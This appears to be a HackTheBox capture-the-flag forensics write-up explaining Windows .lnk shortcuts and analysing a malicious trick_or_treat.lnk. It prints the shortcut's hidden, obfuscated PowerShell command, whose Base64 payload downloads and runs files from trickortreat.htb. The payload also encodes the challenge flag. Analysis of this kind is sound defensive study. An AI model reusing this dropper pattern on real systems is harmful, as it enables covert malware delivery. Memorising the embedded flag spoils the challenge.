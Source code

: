 ```yaml
---
title: The Shortcut Haunting
tags:
  - CTF
  - HackTheBox
  - Forensics
---
```

Once we download the files, inside is contained a `.lnk` file called `trick_or_treat.lnk`.

A `.lnk` file is a Windows shortcut, also known as a link or alias, that points to and opens another file, folder, or application. It contains metadata about the target object, including its type, location, and filename.

**Key characteristics:**

- A `.lnk` file is a separate entity from the actual file or folder it references.
- When double-clicked, it opens the target file or folder, rather than displaying its contents.
- `.lnk` files can be created by right-clicking on an object and selecting “Create shortcut”.
- They are used to provide a convenient way to access frequently used files or applications.

So we can try to find something inside with **strings** command:

```shell
strings -e=l trick_or_treat.lnk

Windows
System32
WindowsPowerShell
v1.0
powershell.exe
Trick or treat?..\..\..\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
-WindowStyle hidden -NoExit -Command "$fko = 'aXdyIC1VcmkgaHR0cHM6Ly90cmlja29ydHJlYXQuaHRiL2Jvby5wZGYgLU91dEZpbGUgJGVudjpURU1QXCBEcm9wYm94IGJvby5wZGY7JGZsYWc9J0hUQnt0cjFja18wcl90cjM0dF9nMDNzX3dyMG5nfSc7U3RhcnQtUHJvY2VzcyAkZW52OlRFTVBcIERyb3Bib3ggYm9vLnBkZjtTdGFydC1TbGVlcCAtcyA1O2l3ciAtVXJpIGh0dHBzOi8vdHJpY2tvcnRyZWF0Lmh0Yi9jYW5keS5qcyAtT3V0RmlsZSAkZW52OlRFTVBcY2FjbmR5LmpzO1N0YXJ0LVByb2Nlc3MgJGVudjpURU1QXGNhbmR5LmpzO0V4aXQ=';$dwQWf = [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($fko));Invoke-Expression -Command $dwQWf"9%ProgramFiles(x86)%\Microsoft\Edge\Application\msedge.exe
C:\Windows\System32\shell32.dll
%SystemRoot%\System32\shell32.dll
S-1-5-21-3849600975-1564034632-632203374-1001
```

The malicious file employs PowerShell to execute commands within the system.

- `WindowStyle hidden`: Runs the PowerShell window in hidden mode, meaning the user won't see a command prompt or PowerShell window pop up.
- `NoExit`: This prevents the PowerShell window from closing immediately after executing the command, which is helpful for ongoing processes but won't be visible in this case due to -WindowStyle hidden.
- `Command`: This specifies the PowerShell command to be executed.
- `[System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($fko));`: This line decodes the Base64 string into human-readable text. When decoded, the string reveals a PowerShell command.

So we can decode it from base64:

```shell
echo 'aXdyIC1VcmkgaHR0cHM6Ly90cmlja29ydHJlYXQuaHRiL2Jvby5wZGYgLU91dEZpbGUgJGVudjpURU1QXCBEcm9wYm94IGJvby5wZGY7JGZsYWc9J0hUQnt0cjFja18wcl90cjM0dF9nMDNzX3dyMG5nfSc7U3RhcnQtUHJvY2VzcyAkZW52OlRFTVBcIERyb3Bib3ggYm9vLnBkZjtTdGFydC1TbGVlcCAtcyA1O2l3ciAtVXJpIGh0dHBzOi8vdHJpY2tvcnRyZWF0Lmh0Yi9jYW5keS5qcyAtT3V0RmlsZSAkZW52OlRFTVBcY2FjbmR5LmpzO1N0YXJ0LVByb2Nlc3MgJGVudjpURU1QXGNhbmR5LmpzO0V4aXQ=' | base64 -d
```

![](Pasted%20image%2020241023221617.png)
